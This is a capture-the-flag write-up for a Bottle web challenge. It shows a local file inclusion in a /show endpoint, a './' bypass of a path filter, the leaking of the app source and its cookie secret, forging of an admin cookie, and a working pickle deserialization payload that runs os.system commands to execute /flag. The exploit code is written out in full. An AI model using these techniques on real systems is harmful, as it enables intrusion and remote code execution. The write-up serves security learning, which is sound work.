 
# description

we're given a simple site, it contains 3 links, when clicking on them it take us to a page where we can read the poem

![](../media/screenshot3.png)

# solution

examining the http request, each link send request to the `/show` endpoint with the variable `id`

![url](../media/Prompt_Injection_url.png)

the value of `id` is a filename, so let's try if the server has a lfi vulnerability

![screenshot](../media/lfi.png)

the server is indeed vulnerable, and after multiples tries, i was able to leak the source code of the server, if was allocated in `../app.py`, but `../app.py` allone won't work because there is a filter, and to skip it you just need to add `./` at the front

![app filter](../media/app_filter.png)

```py
from bottle import route, run, template, request, response, error
from config.secret import Vishwa
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=Vishwa)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=Vishwa)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=80)
```

now that we have the source code, we can see another endpoint `/sign` which checks the cookie if the user is a guest or an admin, and from the imports we can see that the secret used to generate the cookie is allocated in a file called `secret.py` in the `config` folder, we can easily leak it

![leaking secret.py](../media/leaking_secret.png)

now let's create a simple script that generate an admin cookie

```py
from bottle import route, run, template, request, response, error

@route('/')
def index():
    session = {"name": "admin"}
    response.set_cookie("name", session, secret=Vishwa)
    print(request.cookies.get("name"))  # Print the cookie value from the request
    return "Cookie set"

run(host='localhost', port=8080)
```

we run the script then visit `localhost:8080`

![admin_cookie](../media/admin_cookie.png)

using this cookie to send a request to `/sign` made us authenticate as admin, we didn't get the flag, after reading some documentations about bottle and the template engin it uses, the default folder where the templates are placed is `views`, i then leaked templates

![template](../media/guest_temp.png)
![template](../media/admin_temp.png)
![template](../media/index_temp.png)

i tried to test if i could enject a command in the name variable using template injection vulerbility, but that won't work since `name` should be eather `"guest"` or `"admin"` in order for the server to generate the template.

after some searching, i found that bottel uses the pickel python module to serialize the data, which mean the server is vulnerable to deserialization.

```py
from bottle import route, run, template, request, response, error

class exploit(object):
    def __init__(self):
        pass

    def __reduce__(self):
        import os
        return (os.system,("ls -al > /tmp/test",))

Vishwa = "trrrrrrrrrrrrryyyyyyyyyyyharddddddddd"

@route('/')
def index():
    session = {"name": exploit()}
    response.set_cookie("name", session, secret=Vishwa)
    print(request.cookies.get("name"))  # Print the cookie value from the request
    return "Cookie set"

run(host='localhost', port=8080)
```

after running this and send the malicious cookie to the `/sign` end point then leaking `/tmp/test` file, we finaly obtain a result

![](../media/screenshot.png)

we find that there is a `flag` file in the `/` directory, it only has executing permisions

![](../media/screenshot2.png)

and by executing it and redirecting the output to `/tmp/test` we obtain the flag

```py
class exploit(object):
    def __init__(self):
        pass

    def __reduce__(self):
        import os
        return (os.system,("/flag > /tmp/test",))
```

![](../media/flag.png)
